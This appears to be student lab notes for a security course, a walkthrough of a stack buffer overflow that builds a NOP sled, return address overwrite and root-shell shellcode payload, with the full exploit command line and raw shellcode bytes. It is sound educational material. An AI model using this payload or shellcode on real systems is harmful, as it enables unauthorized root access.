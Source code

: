 > [!exercise]+ Constructing the Malicious Payload
>
> Now that we know the offset to the return address, we can construct our malicious payload to inject shellcode and control the program's execution flow.
>
> The payload will consist of the following components:
>
> 1. [[NOP]] sled (landing pad): A sequence of NOP instructions (`\x90`) that acts as a safety net for our shellcode. It provides a large area of harmless instructions, increasing the chances of our shellcode being executed successfully even if the return address is slightly off.
>
> 2. Shellcode: The actual malicious code that we want to execute. In this example, we'll use a 34-byte shellcode that spawns a shell with root privileges.
>
> 3. Filler: Additional padding to ensure our payload reaches the desired length of 140 bytes.
>
> 4. Return address: The address we want to overwrite the saved return address with. It should point somewhere within our NOP sled.
>
> Here's how we construct the payload:
>
> ```python
> payload = "\x90"*80 + shellcode + "A"*26 + "\xfc\xd1\xff\xff"
> ```
>
> - We start with 80 bytes of NOP sled (`\x90`).
> - We append our 34-byte shellcode.
> - We add 26 bytes of filler (in this case, "A"s) to pad the payload to the desired length.
> - Finally, we include the return address (`\xfc\xd1\xff\xff`) in little-endian format, which points to somewhere within our NOP sled.
>
> The total length of our payload is 80 + 34 + 26 + 4 = 144 bytes, which matches the offset we calculated earlier (140 bytes) plus the size of the return address itself (4 bytes).

> [!exercise]+ Executing the Exploit and Gaining Root Access
>
> With our malicious payload constructed, we can now execute the exploit and gain unauthorized root access to the system.
>
> We run the vulnerable program with our payload as the command-line argument:
>
> ```
> /home/a1112407/ws5/simple $(python -c 'print "\x90"*80 +"\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80" + "A"*26 + "\xfc\xd1\xff\xff"')
> ```
>
> Here's what happens when the exploit is executed:
>
> 1. The program copies our payload into the vulnerable buffer using `strcpy()`.
>
> 2. The NOP sled, shellcode, and filler are written to the stack, overflowing the buffer.
>
> 3. The return address is overwritten with the address we specified (`\xfc\xd1\xff\xff`), which points somewhere within our NOP sled.
>
> 4. When the `func()` function returns, instead of returning to the original caller, it jumps to the address we specified in the NOP sled.
>
> 5. The execution continues through the NOP sled until it reaches our shellcode.
>
> 6. The shellcode is executed, spawning a shell with root privileges.
>